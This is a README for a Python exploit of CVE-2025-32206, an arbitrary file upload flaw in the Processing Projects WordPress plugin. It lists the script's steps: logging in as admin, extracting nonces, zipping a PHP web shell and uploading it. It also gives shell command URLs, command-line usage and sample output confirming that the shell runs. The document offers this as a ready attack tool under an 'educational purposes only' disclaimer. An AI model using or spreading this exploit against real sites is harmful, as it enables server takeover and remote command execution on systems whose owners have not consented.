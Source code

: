 
# CVE-2025-32206 - WordPress Processing Projects <= 1.0.2 Arbitrary File Upload Exploit

![CVE-2025-32206 Banner](https://img.shields.io/badge/status-CRITICAL-red)

---

## 🔍 CVE Information

- **CVE ID:** CVE-2025-32206  
- **Vulnerability Type:** Unrestricted File Upload (Web Shell Upload)  
- **Affected Plugin:** Processing Projects WordPress Plugin  
- **Affected Versions:** From unknown (n/a) through **1.0.2**  
- **CVSS Score:** **9.1 (CRITICAL)**  
- **Vector:** `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H`

> "Unrestricted Upload of File with Dangerous Type vulnerability in LABCAT Processing Projects allows attackers to upload a web shell to a web server. This can lead to full compromise."

---

## 🧑‍💻 Exploit Description

This Python exploit script targets WordPress sites using the vulnerable **Processing Projects** plugin (version <= 1.0.2). The plugin improperly handles file uploads from authenticated users, allowing them to upload arbitrary ZIP files that include executable PHP code (web shells).

The exploit script:

1. Authenticates to the target WordPress site as an administrator.
2. Navigates to the vulnerable endpoint and auto-extracts nonce fields.
3. Creates a ZIP file (`Nxploited.zip`) containing a malicious PHP shell (`Nxploit.php`).
4. Uploads the file via a POST request mimicking WordPress admin behavior.
5. Checks if the shell is accessible at:
   - `http://target.com/wp-content/uploads/processing-projects/Nxploit.php`

---

## 🐚 Shell Usage

Once the shell is uploaded successfully, it can be used to execute system commands via the `cmd` parameter. Examples:

```bash
http://target.com/wp-content/uploads/processing-projects/Nxploit.php?cmd=whoami
http://target.com/wp-content/uploads/processing-projects/Nxploit.php?cmd=ls
```

This shell executes arbitrary OS commands and returns their output directly in the response.

---

## 🚀 Usage

```bash
usage: CVE-2025-32206.py [-h] -u URL -un USERNAME -p PASSWORD

Exploit for CVE-2025-32206 | By Nxploited (Khaled Alenazi)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress URL (e.g. http://target.com/wordpress)
  -un, --username USERNAME     WordPress admin username
  -p, --password PASSWORD      WordPress admin password
```

---

## 📄 Sample Output

```bash

[+] CVE-2025-32206 | WordPress Processing Projects <= 1.0.2 - Arbitrary File Upload
[+] By Nxploited | Khaled Alenazi

[+] Created zip with shell: Nxploited.zip -> Nxploit.php
[+] Logged in successfully.
[+] Extracted form fields successfully.
[+] Upload request sent successfully.
[+] Shell executed at: http://target.com/wp-content/uploads/processing-projects/Nxploit.php
```

---

## ⚠️ Disclaimer

This script is provided **for educational purposes only**. Unauthorized use of this exploit on systems you do not own or have explicit permission to test **is illegal and unethical**.

Always follow responsible disclosure practices and use this tool only in controlled environments or with explicit authorization.

---

*By : Nxploited | Khaled Alenazi*
